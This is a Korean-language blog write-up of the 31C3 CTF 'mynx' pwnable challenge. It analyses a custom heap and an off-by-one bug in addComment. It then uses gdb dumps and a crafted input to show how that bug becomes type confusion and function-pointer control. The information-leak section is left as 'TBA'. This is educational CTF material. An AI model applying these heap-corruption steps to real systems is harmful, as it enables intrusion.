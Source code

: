 ```yaml
---
layout: post
title: "31C3 CTF mynx writeup"
headline:
modified: 2017-01-17
category: pwnable
comments: true
featured: true
---
```


A writeup for mynx challenge from 31c3 CTF. Have fun :)



## mynx

**Category:** pwnable  
**Points:** 30  
**Type:** Off-by-One, Custom Heap Implementation  
**Description:**  
> mynx running on 188.40.18.80 1234

### Custom Heap Implementation

전역변수 형태로 정의되어 있는 `heapTable@0x0804A900`와 `chunkCntTable@0x0804A904`와 `idxCnt@0x0804A940`가 Heap Management를 수행하는데 사용된다. `heapTable`의 경우 4096(0x1000)byte만큼 할당되는 메모리 블록들의 포인터 배열이며, 각각의 메모리 블록들은 256(0x100)byte 단위(**chunk**라 하자)로 16등분되어 사용된다. 그리고 `chunkCntTable`은 앞에 선언된 `heapTable`에 존재하는 chunk의 개수를 저장하고 있다. 만약 16개가 넘는다면 out-of-memory 에러를 출력하도록 되어있다. `idxCnt`는 이후에 저장되는 ascii_art 혹은 comment 의 id값을 저장하기 위한 변수이다. 해당 바이너리에서 사용되는 구조체는 크게 2가지 유형이 있다.

```c
struct ascii_art {
  char type; // 0x49 : ascii_art
  int id;
  void (*filter_method)(char * content);
  char content[247];
}
```

```c
struct comment {
  char type; // 0x37 : comment
  int id;
  char comment[251];
}
```

두 구조체의 크기는 256(0x100)byte로 동일하다. 즉, 메모리 블록내에 256byte 단위로 존재하는 chunk만큼 할당이 되는 것이다.

### Vulnerability

취약점은 `addComment@0x08048CE3`함수에 존재한다. `addAsciiart@0x08048D8B`의 경우 `read()` 함수로 입력받을 때, 247byte 만큼만 받는다. 하지만, `addComment`의 경우 할당된 크기(251byte)보다 1byte 더 크게 입력 받는다. 즉, 여기서 **Off-by-One** 취약점이 발생한다. 이는 절묘하게도 다음 chunk의 `type`값을 덮어쓸 수 있고, 결국 **Type Confusion** 취약점으로 연계될 수 있다.

Debugging
---------

(1) add ascii_art A1(0x804b008) - AAAA

(2) add ascii_art A2(0x804b108) - BBBB

(3) add comment(C1:0x804b208) to A1 - aaaa

(4) add comment(C2:0x804b308) to A2 - bbbb

```
gdb-peda$ x/8wx 0x0804b008
0x804b008:	0x00000149	0x048c2b00	0x41414108	0x00000a41
0x804b018:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b108
0x804b108:	0x00000249	0x048c2b00	0x42424208	0x00000a42
0x804b118:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b208
0x804b208:	0x00000137	0x61616100	0x00000a61	0x00000000
0x804b218:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b308
0x804b308:	0x00000237	0x62626200	0x00000a62	0x00000000
0x804b318:	0x00000000	0x00000000	0x00000000	0x00000000
```

(5) add ascii_art A3(0x804b408) - CCCC (6) delete comment(C2:0x804b308)

```
gdb-peda$ x/8wx 0x0804b008
0x804b008:	0x00000149	0x048c2b00	0x41414108	0x00000a41
0x804b018:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b108
0x804b108:	0x00000249	0x048c2b00	0x42424208	0x00000a42
0x804b118:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b208
0x804b208:	0x00000137	0x61616100	0x00000a61	0x00000000
0x804b218:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b308
0x804b308:	0x00000200	0x62626200	0x00000a62	0x00000000
0x804b318:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b408
0x804b408:	0x00000349	0x048c2b00	0x43434308	0x00000a43
0x804b418:	0x00000000	0x00000000	0x00000000	0x00000000
```

(7) add comment(C3:0x804b308) to A3 - cccc ; it will put in C2(0x804b308)

```
gdb-peda$ x/8wx 0x0804b008
0x804b008:	0x00000149	0x048c2b00	0x41414108	0x00000a41
0x804b018:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b108
0x804b108:	0x00000249	0x048c2b00	0x42424208	0x00000a42
0x804b118:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b208
0x804b208:	0x00000137	0x61616100	0x00000a61	0x00000000
0x804b218:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b308
0x804b308:	0x00000337	0x63636300	0x00000a63	0x00000000
0x804b318:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b408
0x804b408:	0x00000349	0x048c2b00	0x43434308	0x00000a43
0x804b418:	0x00000000	0x00000000	0x00000000	0x00000000
```

(8) delete comment(C1:0x0804b208)

```
gdb-peda$ x/8wx 0x0804b008
0x804b008:	0x00000149	0x048c2b00	0x41414108	0x00000a41
0x804b018:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b108
0x804b108:	0x00000249	0x048c2b00	0x42424208	0x00000a42
0x804b118:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b208
0x804b208:	0x00000100	0x61616100	0x00000a61	0x00000000
0x804b218:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b308
0x804b308:	0x00000337	0x63636300	0x00000a63	0x00000000
0x804b318:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b408
0x804b408:	0x00000349	0x048c2b00	0x43434308	0x00000a43
0x804b418:	0x00000000	0x00000000	0x00000000	0x00000000
```

(9) add comment(C2) to A2 - "b"*0xfb + "\x49" ; it will put in C1(0x0804b208) and overwrite C3(0x804b308)

```
gdb-peda$ x/8wx 0x0804b008
0x804b008:	0x00000149	0x048c2b00	0x41414108	0x00000a41
0x804b018:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b108
0x804b108:	0x00000249	0x048c2b00	0x42424208	0x00000a42
0x804b118:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b208
0x804b208:	0x00000237	0x62626200	0x62626262	0x62626262
0x804b218:	0x62626262	0x62626262	0x62626262	0x62626262
gdb-peda$ x/8wx 0x0804b308
0x804b308:	0x00000349	0x63636300	0x00000a63	0x00000000
0x804b318:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b408
0x804b408:	0x00000349	0x048c2b00	0x43434308	0x00000a43
0x804b418:	0x00000000	0x00000000	0x00000000	0x00000000

gdb-peda$ x/65wx 0x0804b208
0x804b208:	0x00000237	0x62626200	0x62626262	0x62626262
0x804b218:	0x62626262	0x62626262	0x62626262	0x62626262
0x804b228:	0x62626262	0x62626262	0x62626262	0x62626262
0x804b238:	0x62626262	0x62626262	0x62626262	0x62626262
0x804b248:	0x62626262	0x62626262	0x62626262	0x62626262
0x804b258:	0x62626262	0x62626262	0x62626262	0x62626262
0x804b268:	0x62626262	0x62626262	0x62626262	0x62626262
0x804b278:	0x62626262	0x62626262	0x62626262	0x62626262
0x804b288:	0x62626262	0x62626262	0x62626262	0x62626262
0x804b298:	0x62626262	0x62626262	0x62626262	0x62626262
0x804b2a8:	0x62626262	0x62626262	0x62626262	0x62626262
0x804b2b8:	0x62626262	0x62626262	0x62626262	0x62626262
0x804b2c8:	0x62626262	0x62626262	0x62626262	0x62626262
0x804b2d8:	0x62626262	0x62626262	0x62626262	0x62626262
0x804b2e8:	0x62626262	0x62626262	0x62626262	0x62626262
0x804b2f8:	0x62626262	0x62626262	0x62626262	0x62626262
0x804b308:	0x00000349
```

### EIP Control

실행흐름을 바꾸기 위해서는 여러가지 방법이 존재하지만 여기서는 고맙게도 함수 포인터(Function Pointer)가 존재한다. ![function_ptr]({{ site.url }}/images/2017-01-17/function_ptr.png) 심지어 인자 값까지 컨트롤 가능하므로 완벽한 취약점 조건이 된다.

### Constructing an Information Leak

TBA
